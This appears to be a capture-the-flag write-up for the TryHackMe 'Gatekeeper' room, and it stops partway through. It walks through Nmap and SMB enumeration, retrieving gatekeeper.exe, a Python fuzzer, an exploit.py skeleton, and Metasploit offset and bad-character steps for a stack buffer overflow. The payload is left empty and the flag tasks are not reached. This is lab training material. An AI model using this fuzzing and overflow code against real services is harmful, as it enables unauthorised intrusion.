


# [Gatekeeper](https://tryhackme.com/r/room/gatekeeper)


[Gatekeeper](https://tryhackme.com/r/room/gatekeeper) is listed as an medium room. Can you get past the gate and through the fire? An overview of what we’ll be using is listed here:

* Nmap

## Task 1 - Approach the Gates

Deploy the machine when you are ready to release the Gatekeeper.

**Writeups will not be accepted for this challenge**

### Answer the questions below

* No Answer Needed

	

### Enumeration

* Scan open port with **Nmap**
	
	```
	nmap $IP -A -p- -oN nmap-scan -Pn
	```
	
	

	You can see all result scan on this [file](./files/nmap-scan). We found SMB port open and 1 suspicious port open on **31337**

* Try to connect on port **31337**

	```
	nc $IP 31337
	```

	

	When we connect on this port, we try to send word "KakakSeram" and we get server response "Hello KakakSeram!!!"

* Using SMBClient to list available shares on the host

	```
	smbclient -L $IP
	```

	

	We found shared folder name **Users**

* Exploring and access to folder **Users**

	```
	smbclient \\\\$IP\\Users
	```

	

	We found file **gatekeeper.exe** on folder **$IP\Users\Share**

* Download file **gatekeeper.exe**

	```
	get gatekeeper.exe
	```

	

### Exploit the program file

* Copy file **gatekeeper.exe** to VM Windows with installed **Immunity Debugger** and **mona.py.** Run **Immunity Debbuger** and open file **gatekeeper.exe**. Press **F9** to run program on **Immunity Debugger**

	

* Set `mona` working folder

	```
	!mona config -set workingfolder D:\Project\mona\%p
	```

	

* Fuzzing the application with `fuzzer.py`

	```
	#!/usr/share/python

	import socket, time, sys

	ip = '10.37.1.149'		# Change to IP Host
	port = 31337			# Change to Port Host
	timeout = 5

	string = "A" * 20

	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(timeout)
		s.connect((ip, port))
		print("#### Starting Fuzzing #####")
		while True:
			print("[+] Sending " + str(len(string)) + " bytes...")
			s.send(bytes(string + '\r\n', "latin-1"))
			s.recv(1024)
			string += "A" * 20
			time.sleep(1)
	except:
		print("#### End of Fuzzing #####")
		print("Fuzzing crashed at " + str(len(string)) + " bytes")
		sys.exit(0)
		s.close()
	```

	

	We got program crashed at 160 bytes

* Create file `exploit.py`

	```
	import socket

	ip = "10.37.1.149"	# Change to IP target
	port = 31337		# Change to Port target

	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = ""

	buffer = overflow + retn + padding + payload

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
		print("Could not connect.")
	```

	

* Create pattern with adding 40 bytes from crached program (160 + 40 = 200)

	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
	```

	

* Copy our pattern to payload variable on `exploit.py`
	
	

* On **Immunity Debugger** press `ctrl+F2` to restart application and click `OK`. Press F2 to run application again. Run `exploit.py` script

	

	

	We got **EIP** value **39654138**

* Find offset from EIP value

	```
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
	```

	

	We got offset value **146**

* Now we need to generate a string of bad chars from `\x01` to `\xff` that is identical to the bytearray. Use the python script (`bytegen.py`) and run the script

	```
	for x in range(1, 256):
		print("\\x" + "{:02x}".format(x), end='')
	print()
    ```

    

* Update `exploit.py` script, set the offset variable value, set the payload variable to generated string and set the retn variable to "BBBB"

	

* Restart **Immunity Debugger** and generate a bytearray using mona, and exclude the null byte (`\x00`)

	```
	!mona bytearray -b "\x00"
	```
	

## Task 2 - Defeat the Gatekeeper and pass through the fire

Defeat the Gatekeeper to break the chains.  But beware, fire awaits on the other side.

### Answer the questions below

* Locate and find the User Flag.

* Locate and find the Root Flag